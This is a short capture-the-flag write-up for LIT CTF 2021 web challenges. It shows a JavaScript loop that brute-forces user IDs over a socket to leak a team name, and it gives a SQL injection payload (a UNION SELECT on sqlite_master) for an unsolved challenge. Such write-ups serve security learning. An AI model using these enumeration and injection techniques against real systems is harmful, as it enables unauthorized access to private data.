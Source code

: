 # LIT CTF 2021 Web Writeups

## LIT BUGS
> Last year’s LIT platform may or may not have had some security vulnerabilities. We have created a simplified version of last year’s platform called LIT BUGS (Lexington Informatics Tournament’s Big Unsafe Grading System). The flag is the team name of the only registered user. Visit LIT BUGS [here](http://websites.litctf.live:8000/)

We can see in the JS of the contest.html page that the frontend retrieves the team name with a reqName request by sending an ID.
All IDs are random numbers from 0 to 999, so we can simply send each ID until we get a response with the flag.

```js
socket.on("reqNameRes",console.log);
for (let i=0; i<=1000; i++) {
    socket.emit("reqName", i);
}
```


## Alex Fan Club
### unsolved
https://stackoverflow.com/questions/82875/how-to-list-the-tables-in-a-sqlite-database-file-that-was-opened-with-attach

https://security.stackexchange.com/questions/127655/would-removing-spaces-in-a-string-protect-against-sql-injection

`' union select name from db.sqlite_master where name like 'table`